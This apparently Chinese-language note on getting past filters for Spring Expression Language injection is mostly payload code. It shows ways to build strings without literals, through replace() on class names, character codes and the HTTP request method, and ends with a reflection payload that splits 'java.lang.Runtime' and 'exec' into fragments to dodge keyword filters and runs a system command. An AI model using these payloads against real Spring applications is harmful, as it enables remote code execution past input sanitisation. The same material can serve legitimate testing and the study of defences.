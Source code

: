<a name="gDPdD"></a>
# bypass
```java
import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.SpelParserConfiguration;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.StandardEvaluationContext;

public class test {
    public static void main(String[] args){
        StandardEvaluationContext context=new StandardEvaluationContext();

        String payload = "T(String).getName()[0]";
        ExpressionParser parser = new SpelExpressionParser(new SpelParserConfiguration());//创建解析器
        Expression exp = parser.parseExpression(payload);//解析表达式
        System.out.println(exp.getValue());

    }
}

//j
```
然后通过replace
```java
String payload = "T(String).getName()[0].replace(106,97)";
//a
```
+拼接
```java
String payload = "T(String).getName()[0].replace(106,97)+T(String).getName()[0].replace(106,114)";
//ar
```
依次类推<br />同理
```java
String payload = "T(Character).toString(114)";
```
<a name="TU539"></a>
## request当跳板
```java
//request.getMethod()为POST

#request.getMethod().substring(0,1).replace(80,104)%2b#request.getMethod().substring(0,1).replace(80,51)%2b#request.getMethod().substring(0,1).replace(80,122)%2b#request.getMethod().substring(0,1).replace(80,104)%2b#request.getMethod().substring(0,1).replace(80,49)
//request.getMethod()为GET

#request.getMethod().substring(0,1).replace(71,104)%2b#request.getMethod().substring(0,1).replace(71,51)%2b#request.getMethod().substring(0,1).replace(71,122)%2b#request.getMethod().substring(0,1).replace(71,104)%2b#request.getMethod().substring(0,1).replace(71,49)

//Cookie
#request.getRequestedSessionId()
```
<a name="gr51d"></a>
## 拼接
```java
"T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[])).invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"getRu\"+\"ntime\").invoke(null),new String[]{\"cmd\",\"/c\",\"calc\"})";

```